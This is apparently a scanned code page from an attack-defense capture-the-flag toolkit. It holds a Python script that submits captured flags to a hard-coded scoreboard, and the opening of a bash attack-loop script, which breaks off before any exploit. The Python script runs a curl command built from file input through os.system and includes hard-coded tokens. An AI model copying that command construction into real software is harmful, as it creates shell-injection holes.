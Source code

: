 submit_flag.py:

```python
#!/usr/bin/env python3
# A script for awd loop submit flag
import threading
from time import sleep
import os
import json
import requests

flag_file = './flags'
threads = []

def submit(flag):
    try:
        # url = 'https://ctf.bugku.com/awd/submit.html?token=88b02ce3b420ec1f4b4a2e02dd6fe305&flag=' + flag[:-1]
        url = f"curl -X POST http://27.25.152.77:19999/api/flag -H 'Authorization: 7f120ca9b0e3024d06734a04a986cc55' -d '{{ \"flag\": \"{flag[:-1]}\"}}'"
        print(url)
        # r = requests.get(url)
        os.system(url)
        print('\x1b[01;38;5;214m[+] pwned!\x1b[0m')
    except Exception as e:
        print('\x1b[01;38;5;214m[-] connect fail: {}\x1b[0m'.format(str(e)))

def main():
    with open(flag_file) as flag_txt:
        flags = flag_txt.readlines()
        for flag in flags:
            thread = threading.Thread(target=submit, args=(flag,))
            threads.append(thread)
            thread.start()

        for thread in threads:
            thread.join()

if __name__ == "__main__":
    main()
```

attack.sh:

```bash
#! /bin/bash

attack_times=10000
round_wait_time=30 #half time
wait_submit_time=5
log_file="logs"
run_time=120 #timeout
next_attack_time=2.5 
max_concurrent_attacks=10 # Max number of concurrent attacks

log(){
    t=$(date "+%H:%M:%S")
    m="[$t]$1" # Fixed missing parameter usage
    info="\033[43;37m $m \033[0m"
    echo -e "$info"
    echo -e "$m" >> $log_file
}

attack() {
    echo "-- round $1 -- " >> all_flags
```